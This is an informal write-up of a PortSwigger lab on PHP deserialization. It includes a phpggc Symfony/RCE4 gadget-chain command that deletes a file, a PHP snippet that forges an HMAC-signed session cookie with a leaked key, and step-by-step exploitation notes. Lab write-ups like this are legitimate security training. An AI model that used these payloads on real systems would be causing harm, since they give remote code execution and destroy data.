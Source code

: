 # Exploiting PHP deserialization with a pre-built gadget chain

## This lab has a serialization-based session mechanism that uses a signed cookie. It also uses a common PHP framework. Although you don't have source code access, you can still exploit this lab's [insecure deserialization](https://portswigger.net/web-security/deserialization) using pre-built gadget chains.

## To solve the lab, identify the target framework then use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, work out how to generate a valid signed cookie containing your malicious object. Finally, pass this into the website to delete the `morale.txt` file from Carlos's home directory.

## You can log in to your own account using the following credentials: `wiener:peter`

### HINT

```php
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
?>
```

### step1

login into your account
and send my-account to repater
![screenshot](./images/lab6_repeter_cookies.png)

### step2

select all cookies it will highligh in inspector
url encoding sig_hmac_shal

![screenshot](./images/lab6_url_encoding.png)

stpe 3
copy session id to decoder

![screenshot](./images/lab6_decode_session_token.png)

### step4

remove last 2 words from cookies and send request

![screenshot](./images/lab6_smfony_version_info.png)

### step5

inspect my-account source page

![screenshot](./images/lab6_source_code.png)

### step6

send request to repeter and find secret key

![screenshot](./images/lab6_secrect_key.png)

### step7

download phpgcc from github
execute below ccommand
`./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64`

![screenshot](./images/lab6_phpggc.png)

### step8

### Hint given in the begining

make a php file
paste generated cookies into object
and paste secret key from above file
pasta and save

![screenshot](./images/lab6_php_code_and_execute.png)

### step9

paste generated cookies into repeter
and forword request

![screenshot](./images/lab6_php_genertated_cookies.png)

### step10

check my account will show lab solved

![screenshot](./images/lab6_lab_solved.png)
